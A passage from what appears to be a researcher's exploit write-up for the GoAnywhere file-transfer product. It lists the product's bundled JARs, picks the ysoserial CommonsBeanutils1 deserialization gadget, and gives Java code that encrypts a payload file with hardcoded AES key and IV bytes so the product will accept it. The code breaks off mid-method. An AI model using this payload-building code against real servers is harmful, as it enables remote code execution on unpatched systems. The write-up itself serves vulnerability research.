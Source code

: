 Looking to the `lib` folder containing all the JARs files used by GoAnywhere

```
activation-1.1.1.jar
agent-commons-3.0.0.jar
apache-mime4j-core-0.7.2.jar
aws-java-sdk-cloudfront-1.12.272.jar
aws-java-sdk-core-1.12.272.jar
aws-java-sdk-kms-1.12.272.jar
aws-java-sdk-s3-1.12.272.jar
aws-java-sdk-sts-1.12.272.jar
azure-keyvault-core-0.8.0.jar
azure-storage-5.5.0.jar
batik-all-1.15.jar
bc-fips-1.0.2.3.jar
bcmail-fips-1.0.4.jar
bcpg-fips-1.0.7.1.jar
bcpkix-fips-1.0.7.jar
bctls-fips-1.0.14.jar
bsh-2.0b6.jar
checker-qual-3.12.0.jar
commons-beanutils-1.9.4.jar
commons-codec-1.15.jar
commons-collections-3.2.2.jar
commons-collections4-4.4.jar
commons-compress-1.21.jar
commons-configuration-1.10.jar
commons-dbcp-1.3.jar
commons-digester-2.1.jar
commons-exec-1.3.jar
commons-fileupload-1.4.jar
...
```

makes the security researcher's heart beat faster. A table of gifts. I'm a fan of the [ysoserial](https://github.com/frohoff/ysoserial) gadget `CommonsBeanutils1`. But we need some custom code to build our final payload first. Remember? The encryption/decryption part.

```java
public class CryptorHelper {

	public static void main(String[] args) throws Exception, Exception {
		final byte[] IV = { 65, 69, 83, 47, 67, 66, 67, 47, 80, 75, 67, 83, 53, 80, 97, 100 };

		StandardEncryptionEngine see = new StandardEncryptionEngine(getInitializationValue(), IV, "AES",
				"AES/CBC/PKCS5Padding");

		Path path = Paths.get("/home/user/tmp/mspaint.bin");
		byte[] data = Files.readAllBytes(path);

		System.out.println("[+] Encrypted: " + new String(Base64.encodeBase64(see.encrypt(data)), "UTF-8"));

	}

	private static byte[] getInitializationValue() throws Exception {
		byte[] arrayOfByte1 = { 103, 111, 64, 110, 121, 119, 104, 101, 114, 101, 76, 105, 99, 101, 110, 115, 101, 80,
				64, 36, 36, 119, 114, 100 };

		byte[] arrayOfByte2 = { -19, 45, -32, -73, 65, 123, -7, 85 };
		char c1 = '┿';
		char c2 = 'Ā';

```
